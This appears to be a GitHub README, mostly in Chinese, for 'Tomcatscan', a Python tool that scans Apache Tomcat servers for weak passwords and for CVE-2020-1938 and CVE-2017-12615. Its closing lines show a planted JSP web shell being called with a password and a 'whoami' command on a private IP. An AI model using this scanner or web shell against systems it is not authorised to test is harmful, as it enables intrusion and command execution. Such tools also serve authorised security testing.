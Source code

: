 # Tomcatscan
Tomcat common vulnerability detection

python3 Tomcatscan.py -u xxx -p xx  //对指定端口进行漏洞探测以及弱口令检测，同时会检测8009端口cve-2020-1938漏洞
![Image text](https://github.com/einzbernnn/Tomcatscan/blob/main/img/1.png)

python TomcatScan.py -H 192.168.1.1-192.168.2.255 //默认检测8080，8081，80，443，8009端口，如需深入探测，可以先利用信息收集工具收集tomcat url保存到文件中后通过 -f参数检测


python TomcatScan.py -f url.txt
#-f 参数 文件中ip的几种格式：

http://192.168.1.1:8080 ##检测8080端口，同时检测8009端口是否存在cve_2020_1938

http://192.168.1.1          ##检测80端口和443端口，同时检测8009端口是否存在cve_2020_1938

https://192.168.1.1         ##检测80端口和443端口，同时检测8009端口是否存在cve_2020_1938

192.168.1.1                   ##检测80端口和443端口，同时检测8009端口是否存在cve_2020_1938

192.168.1.1:8080         ##检测8080端口和443端口，同时检测8009端口是否存在cve_2020_1938


弱口令请在dict目录添加用户名密码

cve-2017-12615 shell利用：访问并执行命令
![Image text](https://github.com/einzbernnn/Tomcatscan/blob/main/img/2.png)
http://192.168.3.137:8080/1635405387.jsp?&pwd=023&cmd=whoami
